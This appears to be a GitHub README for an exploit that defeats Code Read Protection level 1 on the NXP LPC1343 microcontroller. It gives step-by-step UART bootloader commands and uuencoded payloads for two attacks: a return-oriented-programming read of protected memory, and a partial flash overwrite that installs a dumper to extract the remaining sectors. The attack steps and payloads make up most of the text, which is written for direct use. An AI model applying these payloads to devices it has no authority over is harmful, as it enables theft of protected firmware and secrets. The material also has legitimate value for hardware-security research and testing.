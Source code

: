 # NXP LPC1343 CRP bypasses
This exploit bypasses CRP level 1 of the LPC1343 through Return-Oriented Programming and partial overwrit. 

## ROP Exploit

This assumes that the LCP is configured already in CRP 1.

 * Make sure the LPC1343 is in the bootloader: close the BLD_E jumper and ground P0_3
 * Connect via UART and send `?`
 * From now all commands should end with `\r\n`
 * You should get back `Synchronized\r\n`
 * Send `Synchronized\r\n`
 * You should get back `OK\r\n`
 * Send `12000\r\n` to the board to set the clock rate to 12MHz. You should get back `OK\r\n`
 * Let's try to read some memory, e.g. `R 0 4\r\n` - this will try to read 4 byte from 0x00, but will fail with error code `19` (CRP enabled) if chip is protected
 * Let's exploit, first send: `W 268443476 172\r\n`
 * Now, send this exploit to read from 0x000002fc (this is where CRP is stored): 
 ```
 L^PS_'____________`(``+L0_Q^[$/\?NQ#_'[L0_Q]_$?\?`````($._Q\`
 ```
 * This will give UUencoded memory block, you can repeatedly send `OK\r\n` to dump more memory

To change the read address, you need to adapt the address at offset  in `Exploit_Read_CRP_Value.bin`. Then, `uuencode` this file, and copy only the actual encoded part (not the header).

## Partial Overwrite Exploit

This assumes that you have multiple devices with the same code. The below is an example to overwrite sector 1, and dump sector 0 and 2...7:

Enable Erase Command: U 23130

 * Make sure the LPC1343 is in the bootloader: close the BLD_E jumper and ground P0_3
 * Connect via UART and send `?`
 * From now all commands should end with `\r\n`
 * You should get back `Synchronized\r\n`
 * Send `Synchronized\r\n`
 * You should get back `OK\r\n`
 * Send `12000\r\n` to the board to set the clock rate to 12MHz. You should get back `OK\r\n`
 * Prepare Sector 1: `P 1 1\r\n`
 * Erase Sector 1: `E 1 1\r\n`
 * Write 256 bytes at 0x10001700 in RAM: `W 268441344 256\r\n`
 * Send the encoded dumper (see Dumper.c):
 ```
M"TL`(EEIB`;\U1+X`1NR]8!?&6#VT4_T`%)9:8D&_-42^`$;LO4`3QE@]M'I
MYP"_`(``0`"_`+\`OP"_`+\`OP"_`+\`OP"_`+\`OP"_`+\`OP"_`+\`OP"_
M`+\`OP"_`+\`OP"_`+\`OP"_`+\`OP"_`+\`OP"_`+\`OP"_`+\`OP"_`+\`
MOP"_`+\`OP"_`+\`OP"_`+\`OP"_`+\`OP"_`+\`OP"_`+\`OP"_`+\`OP"_
M`+\`OP"_`+\`OP"_`+\`OP"_`+\`OP"_`+\`OP"_`+\`OP"_`+\`OP"_`+\`
?OP"_`+\`OP"_`+\`OP"_`+\`OP"_`+\`OP"_`+\`OP``
```
* Send the checksum of the bytes: `25345\r\n`

* Prepare Sector 1: `P 1 1\r\n`

* Copy 256 bytes strating from address 0x10001700 in RAM to 0x1100 in flash: `C 4352 268441344 256\r\n`

* Reset - will now dump sector 0 and sectors 2...7


